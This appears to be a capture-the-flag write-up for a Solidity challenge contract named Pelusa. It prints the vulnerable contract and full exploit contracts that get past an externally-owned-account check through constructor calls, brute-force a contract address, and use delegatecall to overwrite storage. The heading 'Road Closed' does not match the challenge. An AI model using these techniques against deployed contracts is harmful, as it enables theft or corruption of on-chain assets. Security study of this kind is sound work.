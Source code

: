 # Road Closed

## Challenge

We get one contract which we need to exploit

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
    function getBallPossesion() external view returns (address);
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
				/// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```

The goal is to change the goals from 1 to 2.

## Solution

First you need to get the owner. You can do this by calculating the value from the address that called the constructor and the block.timestamp at the construction tx. 

Then i wrote a simple contract called Shooter. This contract calls the passTheBall functionality if his own address to mod 100 is 10 and sets himself as the player. It does this during the constructor so the require in pelusa doesn't fail, which checks the extcodesize. In addition this contract implements the IGame interface and returns the owner in case of a call to getBallPossesion. It also has a function for handOfGod() which sets goals to 2 and returns the wanted value.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Pelusa.sol";

contract Shooter
{
    address private immutable owner;
    address internal player;
    uint256 public goals;

    //The real owner is the one who deployed the contract, could be retrieved via etherscan or a web3 script scraping for the contract creation transaction
    constructor(address target, address _owner) 
    {
        owner = _owner;
        if (uint160(address(this)) % 100 == 10)
        {
            Pelusa(target).passTheBall();
        }
    }

    function getBallPossesion() external view returns (address)
    {
        return owner;
    }

    function handOfGod() external returns (uint256)
    {
        goals = 2;
        return 22_06_1986;
    }
}
```

Then i wrote the exploit contract which produces shooters until it gets a valid address. Afterwards it calls the shoot function.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Shooter.sol";

contract Attack
{
    function attack(address target, address real_owner) external
    {
        address last_created;
        while (uint160(last_created) % 100 != 10)
        {
            last_created = address(new Shooter(target, real_owner));
        }

        Pelusa(target).shoot();
    }
}
```

In our case the change of goals works, as our shooter contract is called through a delegatecall in the pelusa contract, the change of goals gets done in pelusas context.

I also added a POC, which you can find in the POC.sol file.

